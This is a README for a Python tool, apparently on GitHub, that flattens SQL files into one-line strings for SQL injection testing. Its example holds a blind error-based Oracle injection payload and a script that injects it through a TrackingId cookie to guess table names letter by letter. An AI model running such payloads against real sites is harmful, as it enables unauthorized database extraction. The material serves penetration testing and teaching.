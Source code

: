 # SQL Flat

SQL Flat is a Python utility for converting SQL queries to a single line string. This can be useful while testing for sql injection.

## Installation

You can install SQL Flat using `pip`:

```sh
pip install sqlflat
```

## Usage

To use SQL Parser, import the `sql_to_string` function:

```py
from sqlflat import sql_to_string
```

Then call the function with the path to the SQL file:

```py
query = sql_to_string('path/to/file.sql')
```

This will return the single line version of the SQL query as a string.

## Replacing variables
If you need to replace variables in the SQL query, you can do so using Python's string formatting syntax. For example, let's say you have a SQL query in select_empty_from_dual.sql that includes the variable @a:

```sql
-- Blind SQL injection with conditional errors
-- Throws an error if the variable @a is equal to the first letter of table_name
SELECT
    CASE
        WHEN LEFT(table_name, 1) = @a THEN TO_CHAR(1/0)
        ELSE  NULL
    END

FROM all_tables

WHERE ROWNUM = 1
```

You can replace the @a variable in your querry like so:

```py
#!/usr/bin/python3

import requests
from sqlflat import sql_to_string

for i in range(97,123):
    payload = sql_to_string("select_empty_from_dual.sql").replace('@a', '{}'.format(chr(i)))
    headers = {"Cookie": "TrackingId=0JzsmXsiTEOayV6o'||({})||'; session=CkRxbyf7MgZHJQjSFwTi7oQ1cBLGAgeY".format(payload)}
    r = requests.get('https:/example.com/', headers=headers)
    print("{} - {}".format(chr(i), r.status_code))
```

This code loads the SQL query from select_empty_from_dual.sql and replaces the @a variable with a letter from a to z using Python's chr() function.

## Contributing

If you find a bug or would like to suggest a new feature, please open an issue on the GitHub repository. Pull requests are also welcome!

## License

SQL Flat is licensed under the MIT License. See LICENSE for details.
